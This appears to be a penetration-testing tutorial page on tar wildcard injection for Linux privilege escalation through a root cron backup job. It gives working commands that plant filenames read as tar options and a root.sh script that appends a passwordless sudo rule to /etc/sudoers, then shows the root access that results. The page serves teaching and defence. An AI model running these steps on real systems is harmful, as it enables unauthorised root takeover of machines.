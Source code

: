 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Wildcard Abuse

A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

* &#x20;`*` An asterisk that can match any number of characters in a file name.&#x20;
* `?` Matches a single character.&#x20;
* `[]` Brackets enclose characters and can match any single one at the defined position.&#x20;
* `~` A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.
* &#x20;`-` A hyphen within brackets will denote a range of characters.

## Example

An example of how wildcards can be abused for privilege escalation is the `tar` command, a common program for creating/extracting archives. If we look at the [man page](http://man7.org/linux/man-pages/man1/tar.1.html) for the `tar` command, we see the following:

```shell-session
user@machine:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options.

Consider the following cron job, which is set up to back up the `/home/developer` directory's contents and create a compressed archive within `/home/developer`. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

```bash
#
#
mh dom mon dow command
*/01 * * * * cd /home/developer && tar -zcf /home/developer/backup.tar.gz *
```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

```shell-session
user@machine:~$ echo 'echo "developer ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
user@machine:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
user@machine:~$ echo "" > --checkpoint=1
```

We can check and see that the necessary files were created.

```shell-session
user@machine:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 developer   developer      1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 developer   developer      1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 developer   developer     60 Aug 31 23:11 root.sh
```

Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.

```shell-session
user@machine:~$ sudo -l

Matching Defaults entries for developer on machine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on machine:
    (root) NOPASSWD: ALL
```
